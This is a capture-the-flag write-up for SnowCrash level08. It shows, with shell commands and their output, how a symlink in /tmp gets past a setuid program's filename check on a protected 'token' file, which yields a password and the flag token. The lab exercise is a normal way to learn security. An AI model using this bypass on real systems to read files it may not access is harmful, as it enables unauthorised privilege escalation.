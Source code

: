 For this level, we do a "ls -l" to see an executable and a file named token.

	level08@SnowCrash:~$ ls -l
	total 16
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token

We try to execute level08 but we see that we need to give a file to read.

	level08@SnowCrash:~$ ./level08
	./level08 [file to read]

We try to give the token file on argument.

	level08@SnowCrash:~$ ./level08 token
	You may not access 'token'

It appear that we don't have the access to the token file.
We need to create a soft link (symbolik link) to this token file to have some sort of access to it.
Then pass the symbolic link to the program.

	level08@SnowCrash:~$ ln -s ~/token /tmp/file
	level08@SnowCrash:~$ ./level08 /tmp/file
	quif5eloekouj29ke0vouxean

Here we have the flag08 password.

	level08@SnowCrash:~$ su flag08
	Password:
	Don't forget to launch getflag !
	flag08@SnowCrash:~$ getflag
	Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

